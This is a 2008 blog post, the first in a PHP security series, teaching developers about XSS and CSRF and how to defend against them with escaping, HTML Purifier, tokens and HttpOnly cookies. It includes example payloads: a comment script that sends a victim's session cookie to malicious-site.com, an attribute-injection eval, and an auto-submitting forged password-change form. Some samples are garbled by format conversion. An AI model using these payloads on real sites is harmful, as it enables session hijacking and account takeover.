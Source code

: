 title: Securing Your PHP Code - XSS
date: 2008-04-06 02:03
excerpt: 
categories: javascript, php, programming

Today I'm going to start a three part series looking at security issues affecting web developers. The specifics apply to PHP developers, but the general concepts carry across all technologies.

Any significant website is going to consist of three core layers: the client side code (HTML and JavaScript), server code (PHP) and a storage layer (MySQL). As a developer you should be aware of the security implications of each layer of technology and how you can best secure your code.

<!--more-->

## What is an XSS Attack?

This post is going to focuse on JavaScript and HTML. You might think that the HTML on your site  is fairly benign. Does it matter if the HTML doesn't come out exactly the way you planned? Actually, it does. [Cross-Site Scripting (XSS)](http://en.wikipedia.org/wiki/XSS) is the terms given to security vulnerabilities that are exploited through client site scripting.

## Attack Types

XSS attacks fall into two categories: persistent and non-persistent. A persistent attack is one in which the attacker permanently modifies your site, just like the example below. Any user that loads the vulnerable page will be affected. A non-persistent attack is a temporary modification to the page, for example when a page prints out a variable passed to it through the query string. A non-persistent attack usually relies on some kind of social aspect from the attackers to entice the victim to visit a specially crafted URL.

Non-persistent attacks may also take advantage of holes in your JavaScript to write output to the page.

## XSS Example

A simple persistent XSS session hijack attack might take the following form.

*   You accept user input into a comment field. This is output straight to the page with no filtering.
*   Malicious user Alice sends the following comment
<pre lang="html">Great Work!
<script>document.write('![](http://malicious-site.com/capture/)');</script></pre>

*   This is accepted by your site and pasted into the comments.
*   One of your members, Bob, visits the comment page while logged in.
*   His browser parses the malicious script and adds the invisible image tag to the page.
*   His browser then requests the URL of the image: http://malicious-site.com/capture/PHPSESSID=3D3c2542747972f9a08b8759eafd079d7b
*   Alice's server logs Bob's session cookie.
*   Alice can now use the same session cookie on our site and you'll think she's logged in as Bob.
This is a simple session hijacking attack. You could no-doubt patch this vulnerability, but there are a whole range of vectors that malicious users can use to attack your site. You need to focus on your security from a broad perspective and make sure that you have covered absolutely every angle. It only takes one hole to circumvent all your defenses.

## Escaping Data

The one rule to stoping attacks is simple: you need to stop trusting your users' input. Every single piece of information you receive should be trusted as suspect. This goes beyond your usually $_POST and $_GET variables to include the following.

*   $_GET
*   $_POST
*   $_FILES
*   $_COOKIES
*   $_SERVER (variables like 'REFERRER_URI' or  'USER_AGENT' are sent by the user - some attackers have been known to [send bad referrer data](http://lwn.net/2001/1108/a/webalizer.php3) so that they can exploit admin interfaces that show referrer information).
*   Data from the DB (another developer may plug in a new data source at some stage, so you cannot ever assume that database data is escaped).
*   Anything retrieved remotely, such as a RSS feeds.
That is a lot of data to sanitize. You might think that you can filter all incoming data but that's going to lead to complications. What if you decide you need to store data from an incoming RSS feed in your DB? When you read from the datadase you'll have already escaped it, and risk escaping it again when you read it back out. You will end up with a mass of code for escaping and un-escaping. On a project with multiple developers it will become difficult to know whether the data a block of code is dealing with is sanitized or not. The simplest solution for escaping your data is to assume that **all** data is unsafe and escape it at the last possible moment; when printing it out to a HTML page.

What we need is a function that will ensure our data is never interpreted as HTML by the client's browser. This is given to use in the form of PHP's `[htmlspecialchars](http://www.php.net/htmlspecialchars)`. This function will replace any quote, angled bracket or ampersand with its HTML entity. `&lt;script&gt;` becomes `&amp;lt;script&amp;gt;`. Once you have sanitized your data then you've just stopped a large number of possible attacks.

**Note:** make sure you quote all HTML attributes, especially if you are using (escaped) user input in them.

<pre lang="php">![<?php echo htmlentities($userTitle);?](foobar.gif alt=<?php echo htmlentities($userTitle);?) /></pre>
Could easily turn into
<pre lang="html">![onclick=eval(/* some evil code*/) /](foobar.gif alt= onclick=eval(/* some evil code*/) /)</pre>
If you want to remove HTML tags rather than escape them then use `[striptags](http://www.php.net/striptags)`. I prefer to use `htmlspecialchars` because it won't lead to accidentally data loss, and also indicates to users who attempt to use HTML in a legitimate manor that HTML is not accepted.

## Allowing Some HTML

At some stage you are going to encounter a situation where you want to allow users to post a limited subset of HTML. I'd suggest that you save yourself a lot of trouble - don't ever try and filter the HTML yourself. Parsing HTML (especially badly written HTML) is an extremely hard task to do well. Regexes aren't going to cut it. [HTML Purifier](http://htmlpurifier.org/) seems to be the best package out there for PHP developers.

## Cross Site Request Forgeries

CSRF is a separate class of attack which is not technically an XSS attack, but is still closely related. In this attack the attacker creates specially crafted POST requests that they execute on the users browser without the user being aware. On third-party-site.com an attacker inserts the following code.
<pre lang="html">
<form action="**http://www.your-site.com/account/set_password.php**" method="post" id="evilForm">
	<input type="hidden" name="password" value="newpass" />
</form>
<script>document.getElementById('b).submit();</script>
</pre>
Your site will receive an apparently valid POST request to reset the user's password. Because the request is sent from the victim's browser (without them knowing) it will contain a valid cookie. You need to have some way of filtering out these bogus requests from legitimate ones.

The "[Samy is my Hero](http://namb.la/popular/)" MySpace worm used a MySpace XSS hole and CSRF to spread.

If you are modifying data through GET requests then you have an even bigger problem. An attacker could post a link on your own site to a malicious URL: e.g. `http://www.your-site.com/blog/delete?id=1`	. No filtering is going to remove this URL because it is perfectly legitimate. Do not ever allow users to modify anything with a GET request.

## Preventing Bogus Requests

There are a few things you can do to prevent rogue POST requests on your site. A malicious website can have a hidden form that submits to your site, but no third-party site can ever read the DOM structure of your site through the victim's browser.
Many sites take advantage of this security restriction by introducing a two step process for any form data.

1.  User performs a GET on `delete.php`. This page does not modify any data.
2.  Site creates a unique token and adds it to the user's session.
3.  Site returns a page containing a POST form pointing to `delete_process.php`.
4.  The user submits the form.
5.  `delete_process.php` does the actual deletion only if the user has performed a POST request and the request includes the token generated in step 2.
6.  For good practice the server should redirect the user to a page that confirms their action (this is known as the [Post/Redirect/Get pattern](http://en.wikipedia.org/wiki/Post/Redirect/Get))
This method will thwart a malicious POST coming from the third party site, as the third part can never read the secret token we generate, and therefore their request will be rejected.

At the time of the "Samy" worm MySpace was actually implementing the two-step process described above. However, because the attacker had discovered an XSS hole in MySpace, he was able to spread the worm from within the MySpace.com domain and could use XMLHTTPRequests to read the unique token.

Note: You may think that checking referrer values is a good way to stop bogus requests. Unfortunately there have also been known vulnerabilities which allow an attacker to spoof referrer headers. In addition to this, many users browse with referrers turned off or deliberately set to an incorrect value.

## Watch Your Subdomains

It is common for many third-part scripts like WordPress or PHPBB to be vulnerable to XSS attacks. You may think that by hosting the package on a separate subdomain (e.g. forum.your-site.com) would keep you safe but an attacker can use JavaScript's `document.domain` setting to make XMLHTTPRequests and read cookies from your top level domain (e.g. "your-site.com"). However, they will not be able to attack any other subdomains. If you main site is located at www.your-site.com and cookies are set to be readable to ".www.your-site.com" then your main site will be safe.

## HTTP Only Cookies

Another promising candidate in the fight against XSS attacks is the [HTTP only cookie](http://msdn2.microsoft.com/en-us/library/ms533046.aspx), a proprietary extension created by Microsoft that would stop scripts from reading cookies that should only be read by the server.

## Final Thoughts

Be careful with your JavaScript, you could wind up undoing all the careful work you did in your server side code, just as [BugZilla](https://bugzilla.mozilla.org/show_bug.cgi?id=272620) did.

Pick a content encoding and stick to it. This has even [caught out Google](http://shiflett.org/blog/2005/dec/googles-xss-vulnerability). Use the same character encoding in your HTML meta tags as you pass to `htmlspecialchars`. UTF-8 is always a safe bet.

## Other articles in this series

*   [Securing Your PHP Code - Server Security](../securing-your-php-code-server-security/)
*   [Securing Your PHP Code - Databases](../securing-your-php-code-databases/)